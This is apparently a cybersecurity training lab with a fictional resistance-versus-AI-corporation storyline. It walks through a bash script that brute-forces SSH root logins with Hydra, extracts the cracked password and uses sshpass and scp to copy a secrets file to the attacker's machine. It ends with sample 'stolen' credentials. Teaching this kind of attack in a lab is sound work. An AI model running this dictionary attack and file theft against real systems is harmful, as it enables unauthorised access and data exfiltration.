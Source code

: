 # Using Hydra to Crack Passwords

## Lab description: In this challenge, you will access the Globomantics network through their SSH service, through a dictionary attack launched using Hydra.

It was a gray, cold winter day when you decided to join the Resistance. The Dark Kittens was the main opposing force against Globomantics' evil intentions, however, nothing matched the power and resources of this huge conglomerate.
Their plan was to deploy artificial intelligence agents to implement a totalitarian regime, in which people's emotions would be forcefully supressed through a drug called "the spice". The humanity was in serious danger.
Until one day, when a whistleblower sent a message to the Dark Kittens, sharing that the keys to the main AI controller were sitting on an SSH server. With those, you, together with the Dark Kittens, could stop Globomantics from putting their evil ideas into practice.

You decide to try hacking into the SSH server and grab the secret keys. 

On a Linux machine, open a terminal. Next, you need to do the following:
1. Create a script called attack.sh.
2. Inside it, add `#!/bin/bash` at the top of the file.
3. After that, add the details of the host, `root` as username, and the path to their secrets file that you got from your informer. The file was supposingly stored in /tmp/sensitive-info.txt file.
4. Next, create the following line, where you sent the path to a file containing a list of the most common passwords to Hydra:
```hydra -l $username -P passwd.txt $host ssh -o result.txt```
5. Then, add the command to fetch the password and store it in a file called result.txt:
```password=$(grep 'login:password' result.txt | awk '{print $3}')```
6. With the purpose of analyzing the secrets file fetched from the Globomantics network, add the following command to copy the file to your machine:
```sshpass -p "${password}" scp "${username}@${host}:${secrets_file_path}" "${local_path}"```
7. Launch the script.

And the result was successful. You managed to extract the following secrets:

```
Password: d683a51d
Secret Key: 493e1aec-a884-11ed-afa1-0242ac120002
```

It was a great victory for humanity! But it was just a battle. The war was far from over...

